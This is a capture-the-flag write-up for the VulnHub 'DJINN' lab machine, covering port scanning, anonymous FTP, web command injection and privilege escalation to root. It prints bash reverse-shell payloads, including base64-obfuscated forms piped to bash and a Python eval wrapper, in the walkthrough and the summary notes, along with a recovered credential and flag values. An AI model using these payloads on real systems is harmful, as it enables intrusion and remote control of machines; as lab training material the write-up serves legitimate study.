 ```yaml
---
title: DJINN
categories: [VulnHub]
tags: [FTP, Command Injection, PrivEsc]
image:
  path: https://www.vulnhub.com/media/img/entry/djinn-01.png
  alt: DJINN Machine !
---
```


## Description ⤵️


💡 [DJINN](https://www.vulnhub.com/entry/djinn-1,397/)

- Level: Beginner-Intermediate
- flags: user.txt and root.txt
- Description: The machine is VirtualBox as well as VMWare compatible. The DHCP will assign an IP automatically. You'll see the IP right on the login screen. You have to find and read two flags (user and root) which is present in user.txt and root.txt respectively.
- Format: Virtual Machine (Virtualbox - OVA)
- Operating System: Linux


### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/DJINN/Untitled.png)

```bash
IP : 10.0.2.12
```
{: .nolineno}

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%202.png)

```bash
OPEN PORTS >
21  FTP (Anonymous Login Allowed)
22  filtered ssh (Means there is a way to open this may be through knocking ports)
1337 waste ? [I have to check it through netcat]
7331 http (may be vulnerable)
```
{: .nolineno}

---

## FTP Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%203.png)

Lets see what I got from FTP server.

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%204.png)


## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%206.png)

After Executing `id` command I got this, `Command Injection` working properly →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%207.png)

Now after doing so many hardwork, I got to know that for achieving reverse shell I need to decode the encoded code inside the Execute command → 

After so much of hardwork I got to know that base 64 encoded code is executing which decoding it inside the command injection : →

```bash
payload →
bash -i >& /dev/tcp/10.0.2.10/4444 0>&1
Execute →
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg==" | base64 -d | bash
```
{: .nolineno}

Now in return I got this →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%208.png)

After some enumeration I got another cred like this :

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%209.png)

```bash
nitish:p4ssw0rdStr3r0n9
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2010.png)

```bash
user.txt → 10aay8289ptgguy1pvfa73alzusyyx3c
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2011.png)

Now lets exploit →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2012.png)

Lets see how sam can lead us to sam →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2013.png)

I got `.pyc` file in `/home/sam/.pyc` After transferring to attackers machine when I opened it I got to know this part →

```python
def guessit():
		num = randint(1, 101)
		print("Choose a number between 1 to 100: ")
		try:
		    s = input("Enter your number: ")
		    if s == num:  <------ This part num
		        system("/bin/sh")
		    else:
		        print("Better Luck next time")
		except:
		    print("Slow claps again")
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2014.png)

Root !! got it →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2015.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2016.png)

```bash
proof.txt → 33eur2wjdmq80z47nyy4fx54bnlg3ibc
```

<hr>

# Summery Notes →

> These are the important commands, I used above.
> `bash -i >& /dev/tcp/10.0.2.10/4444 0>&1` <br>
> `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg== | base64 -d | bash` 
> `sudo -u sam /usr/bin/genie -cmd whoami` 
> `eval ('__import__("os").system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg== | base64 -d | bash")')`
{: .prompt-tip }

<hr>

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }